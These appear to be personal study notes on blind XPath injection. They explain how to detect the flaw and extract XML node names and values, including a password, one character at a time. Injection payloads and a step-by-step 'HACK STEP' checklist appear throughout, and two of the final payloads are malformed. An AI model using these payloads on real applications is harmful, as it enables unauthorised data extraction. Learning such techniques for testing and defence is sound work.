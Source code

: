 # Blind XPath Injection
- XPath queries can contain steps that are relative to the current node within the XML document, so from the current node, it is possible to navigate to the parent node or to a specific child node,
- XPath contains function to query meta-information about the document, including the name of the specific element,using these tech, extract the names and values of all nodes.
```bash
'or substring(name(parent::*[position()=1]),1,1)='a
```
this input generates result, because the first letter of the address node is a, 
- this way we extracted address node, and then we cycle through each of its child nodes,extracting all names and values
```bash
//address[position()=3]/child::node()[position()=4]/text()
```
- this technique can be used in a completely blind attack, where no result are returned within the application's responses, by crafting an injected condition that specifies the target node by index,
```bash
' or substring(//address[position()=1]/child::node()[position()=6]/text(),1,1)='M' and 'a'='a
```
 by supplying above payload, if the result returned then we know that 1st char of Gates password is `M`
 
 **TIP:**
   - Xpath contains 2 use full functions that can help us to automate the preceding attack and quickly iterate through all nodes and data in the xml doc
	   - `count()` returns number of child nodes of given element, which can be used to determine range of position() values to iterate over
	   - `string-length()` returns the length of a supplied string, which can be used to determine the range of `substring()` values to iterate over


# Finding XPath Injection Flows
- probing with `'` and `'--` this will invalidate the XPath query and generates Error
- one or more of following strings typically result in some change in the application's behavior with out causing error, same way they do in `relation to SQLI`
```bash
' or 'a'='a
' and 'a'='b
or 1=1
and 1=2
```

## HACK STEP
  1. Try submitting following values, and determine whether these result in different application behavior without causing an error
	  1. `' or count(parent::*[position()=1])=0 or 'a'='b`
	  2. `' or count(parent::*[position()=1])>0 or 'a'='b`
	  3. if parameter is numeric, also try the following test strings
	  4. `1 or count(parent::*[position()=1])=0`
	  5. `1 or count(parent::*[position()=1])>0`
   2. if any of the preceding strings cause differential behavior within the application without causing error, it is likely that you can extract arbitrary data by crafting test conditions to extract one byte of information at a time, use a series of conditions with the following form to determine name of the current node's parent
	   1. `substring(name(parent::*[position()=1],1,1)='a'`
	3. Having extracted name of parent node, use a series of conditions with following form to extract all the data within XML tree
		1. `substring(//parentnodename[position()=1]/child::node()[position()=1/text(),1,1)='a'`
